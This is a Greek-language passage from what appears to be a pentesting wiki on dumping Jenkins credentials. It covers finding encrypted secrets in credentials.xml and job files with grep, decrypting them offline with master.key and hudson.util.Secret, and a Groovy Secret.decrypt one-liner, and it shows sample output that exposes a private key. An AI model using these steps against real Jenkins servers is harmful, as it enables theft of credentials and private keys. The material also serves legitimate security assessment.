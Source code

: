 Αν μπορείτε να **δείτε τη διαμόρφωση κάθε έργου**, μπορείτε επίσης να δείτε εκεί τα **ονόματα των διαπιστευτηρίων (μυστικών)** που χρησιμοποιούνται για την πρόσβαση στο αποθετήριο και **άλλα διαπιστευτήρια του έργου**.

![](<../../.gitbook/assets/image (180).png>)

#### From Groovy

{% content-ref url="jenkins-dumping-secrets-from-groovy.md" %}
[jenkins-dumping-secrets-from-groovy.md](jenkins-dumping-secrets-from-groovy.md)
{% endcontent-ref %}

#### From disk

Αυτά τα αρχεία είναι απαραίτητα για να **αποκρυπτογραφήσετε τα μυστικά του Jenkins**:

* secrets/master.key
* secrets/hudson.util.Secret

Τέτοια **μυστικά μπορούν συνήθως να βρεθούν σε**:

* credentials.xml
* jobs/.../build.xml
* jobs/.../config.xml

Ορίστε μια regex για να τα βρείτε:
```bash
# Find the secrets
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
# Print only the filenames where the secrets are located
grep -lre "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"

# Secret example
credentials.xml: <secret>{AQAAABAAAAAwsSbQDNcKIRQMjEMYYJeSIxi2d3MHmsfW3d1Y52KMOmZ9tLYyOzTSvNoTXdvHpx/kkEbRZS9OYoqzGsIFXtg7cw==}</secret>
```
#### Αποκρυπτογράφηση μυστικών Jenkins εκτός σύνδεσης

Εάν έχετε εξάγει τους **απαραίτητους κωδικούς πρόσβασης για να αποκρυπτογραφήσετε τα μυστικά**, χρησιμοποιήστε [**αυτό το σενάριο**](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) **για να αποκρυπτογραφήσετε αυτά τα μυστικά**.
```bash
python3 jenkins_offline_decrypt.py master.key hudson.util.Secret cred.xml
06165DF2-C047-4402-8CAB-1C8EC526C115
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt985Hbb8KfIImS6dZlVG6swiotCiIlg/P7aME9PvZNUgg2Iyf2FT
```
#### Αποκρυπτογράφηση μυστικών Jenkins από Groovy
```bash
println(hudson.util.Secret.decrypt("{...}"))
```
### Δημιουργία νέου διαχειριστή
